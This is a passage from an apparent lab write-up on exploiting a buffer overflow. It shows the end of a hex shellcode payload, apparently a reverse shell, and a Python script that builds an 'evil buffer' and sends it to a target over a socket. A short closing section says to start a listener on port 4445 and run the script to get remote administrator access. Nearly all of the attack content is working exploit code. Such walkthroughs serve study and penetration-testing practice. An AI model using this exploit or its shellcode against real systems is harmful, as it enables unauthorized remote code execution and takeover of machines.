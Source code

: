 ```python
"\xe0\x57\x7b\x3e\x61\x23\x58\x9a\x29\xf7\xc1\xbb\x97\x56"
"\xfd\xdb\x77\x06\x5b\x90\x9a\x53\xd6\xfb\xf2\x90\xdb\x03"
"\x03\xbf\x6c\x70\x31\x60\xc7\x1e\x79\xe9\xc1\xd9\x7e\xc0"
"\xb6\x75\x81\xeb\xc6\x5c\x46\xbf\x96\xf6\x6f\xc0\x7c\x06"
"\x8f\x15\xd2\x56\x3f\xc6\x93\x06\xff\xb6\x7b\x4c\xf0\xe9"
"\x9c\x6f\xda\x81\x37\x8a\x8d\xa7\xd5\xab\x3c\xd0\xdb\xd3"
"\xaf\x7d\x55\x35\xa5\x6d\x33\xee\x52\x17\x1e\x64\xc2\xd8"
"\xb4\x01\xc4\x53\x3b\xf6\x8b\x93\x36\xe4\x7c\x54\x0d\x56"
"\x2a\x6b\xbb\xfe\xb0\xfe\x20\xfe\xbf\xe2\xfe\xa9\xe8\xd5"
"\xf6\x3f\x05\x4f\xa1\x5d\xd4\x09\x8a\xe5\x03\xea\x15\xe4"
"\xc6\x56\x32\xf6\x1e\x56\x7e\xa2\xce\x01\x28\x1c\xa9\xfb"
"\x9a\xf6\x63\x57\x75\x9e\xf2\x9b\x46\xd8\xfa\xf1\x30\x04"
"\x4a\xac\x04\x3b\x63\x38\x81\x44\x99\xd8\x6e\x9f\x19\xf8"
"\x8c\x35\x54\x91\x08\xdc\xd5\xfc\xaa\x0b\x19\xf9\x28\xb9"
"\xe2\xfe\x31\xc8\xe7\xbb\xf5\x21\x9a\xd4\x93\x45\x09\xd4"
"\xb1")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

## **7. Exploitation**

Set up listener on 4445 port, reset the programm in immunity debugger, start the *exploit.py* and we got remote access as an admin!


![](p/6.png)

